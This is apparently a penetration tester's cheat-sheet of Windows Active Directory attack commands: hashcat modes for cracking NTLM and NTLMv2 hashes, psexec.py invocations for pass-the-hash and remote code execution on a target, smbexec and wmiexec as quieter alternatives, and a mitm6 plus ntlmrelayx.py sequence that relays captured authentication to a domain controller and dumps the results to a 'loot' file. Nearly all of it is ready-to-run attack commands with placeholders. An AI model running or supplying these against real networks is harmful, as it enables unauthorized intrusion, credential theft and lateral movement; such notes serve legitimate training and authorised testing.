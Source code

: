
# hashcat
hashcat -m # hash code -a ATTACKTYPE 0 or empty hashfile wordlist 
NTLM 1000
NTLMv2 5600



# psexec.py or metasploit #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
	    psexec.py USUERNAME:@IP -hashes HASH
	usage 2 :
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
	usage 3 :
      psexec.py DOMAIN/USERNAME:PASSWORD@IP 

## More tools like psexec :

Less noisy start with these
smbexec
wmiexec

# mitm6
```bash
mimt6 -d DOMAIN # start mimt6

# then start relay attack using ntlmrelayx.py
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.DOMAIN -l loot


-6 # IPv6
-t # target Domain Controller
-wh # wpad name eg. fakewpad.marvel.local
-l # dump info to file called loot
```

